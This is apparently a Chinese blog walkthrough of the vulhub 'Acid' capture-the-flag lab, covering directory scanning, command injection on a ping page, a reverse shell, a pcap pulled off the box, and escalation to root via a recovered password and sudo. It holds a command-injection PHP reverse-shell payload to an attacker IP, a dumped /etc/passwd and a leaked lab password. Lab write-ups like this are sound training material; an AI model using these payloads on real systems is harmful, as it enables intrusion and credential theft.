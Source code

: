 # 云尘-Acid

vulhub的靶场

直接开扫



<img src="https://i-blog.csdnimg.cn/blog_migrate/ad8e02207a796fce18343c33aadf1202.png" alt="" style="max-height:270px; box-sizing:content-box;" />


开始信息收集

robots.txt啥都给我用上



<img src="https://i-blog.csdnimg.cn/blog_migrate/7e151240d02ab1ece954f7831ace73b7.png" alt="" style="max-height:54px; box-sizing:content-box;" />


有一个 解码看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/2f1f82d98da702467278332c31b00d28.png" alt="" style="max-height:606px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/f54808a5bc6613020315793024cd5cae.png" alt="" style="max-height:315px; box-sizing:content-box;" />


访问不上 学了别人的wp 通过 dirbustr跑 选择字典开冲！

但是真的巨慢！！！

然后最后扫下来

```cobol
Challenge/Magic_Box/command.php
```

发现了这个目录



<img src="https://i-blog.csdnimg.cn/blog_migrate/6abd023aeb7f47831944639fd34e6758.png" alt="" style="max-height:394px; box-sizing:content-box;" />


这不就ctf的 ping的rce么 直接执行命令看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/a2bb752283af1755cf8de5992aff0e4a.png" alt="" style="max-height:177px; box-sizing:content-box;" />


这里如果我们需要反弹shell 就需要通过bp的url编码

```swift
;php -r '$sock=fsockopen("10.8.0.18",7777);exec("/bin/sh <&3 >&3 2>&3");'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/03a5302cf28a4d71ff7e21160e0d402e.png" alt="" style="max-height:302px; box-sizing:content-box;" />


成功咯



<img src="https://i-blog.csdnimg.cn/blog_migrate/c01b65abf991afc138665c31d0c2a398.png" alt="" style="max-height:193px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/ee8b3bf8e0c70864e6fbcf8600a4fc86.png" alt="" style="max-height:180px; box-sizing:content-box;" />


现在要干嘛呢 当然是提权 现在只是小小的www-data权限 这里我们首先看看能不能开启bash



<img src="https://i-blog.csdnimg.cn/blog_migrate/25960688d1e3017f0b4a6d07103f862c.png" alt="" style="max-height:50px; box-sizing:content-box;" />


启用python交互

```rust
python -c 'import pty;pty.spawn("/bin/bash")'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8a354d58b328b4c09d0ea272b248be7a.png" alt="" style="max-height:77px; box-sizing:content-box;" />


这个时候就可以看到正常的shell了

然后我们摸索一下

看看passwd

```ruby
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:104:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:105:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:106:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:107:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:110::/home/syslog:/bin/false
messagebus:x:105:112::/var/run/dbus:/bin/false
uuidd:x:106:113::/run/uuidd:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ntp:x:108:117::/home/ntp:/bin/false
whoopsie:x:109:118::/nonexistent:/bin/false
acid:x:1000:1000:acid,,,:/home/acid:/bin/bash
mysql:x:111:126:MySQL Server,,,:/nonexistent:/bin/false
saman:x:1001:1001:,,,:/home/saman:/bin/bash
www-data@acid:/var/www/html/Challenge/Magic_Box$
```

没啥用呀

但是先过一遍 这里提醒先注意saman

然后我们可以发现 这里有我们的题目名 acid 那么好办了 看看存在什么文件是acid执行的

```cobol
find / -user acid -type f 2>/dev/null
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/bf9b96b4422850f1b6e06ee078fd5df2.png" alt="" style="max-height:159px; box-sizing:content-box;" />


获取到咯 这个流量包 我们开启服务下回本机

```cobol
python2版本
 
 
python -m SimpleHTTPServer 8888
```

然后我们就获取了流量包 开始wireshark 看

然后我们只看tcp看看有没有存在什么交互



<img src="https://i-blog.csdnimg.cn/blog_migrate/9a763520cf6e4425038042f621600327.png" alt="" style="max-height:228px; box-sizing:content-box;" />


感觉有东西



<img src="https://i-blog.csdnimg.cn/blog_migrate/3983284458fb83142c5723d3bda6920c.png" alt="" style="max-height:277px; box-sizing:content-box;" />


这里不就出现了 saman  这里也看到了 面 1337hax0r 这个其实就是我们刚刚开始的那个界面的字符串 我们看看能不能提权了



<img src="https://i-blog.csdnimg.cn/blog_migrate/01145b28a3cffc9b2fd62f255e67659e.png" alt="" style="max-height:102px; box-sizing:content-box;" />


成功咯

然后看看权限

```undefined
sudo -l
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fb3032dac0690a7086c2cd97eef9653b.png" alt="" style="max-height:175px; box-sizing:content-box;" />


发现全都有 那么直接sudo su了



<img src="https://i-blog.csdnimg.cn/blog_migrate/4b5c333a8cb9fc3c77f159f34f4b9c17.png" alt="" style="max-height:160px; box-sizing:content-box;" />


出现咯



<img src="https://i-blog.csdnimg.cn/blog_migrate/605f66daee641ed3ce6c9c275c651782.png" alt="" style="max-height:402px; box-sizing:content-box;" />


得到flag咯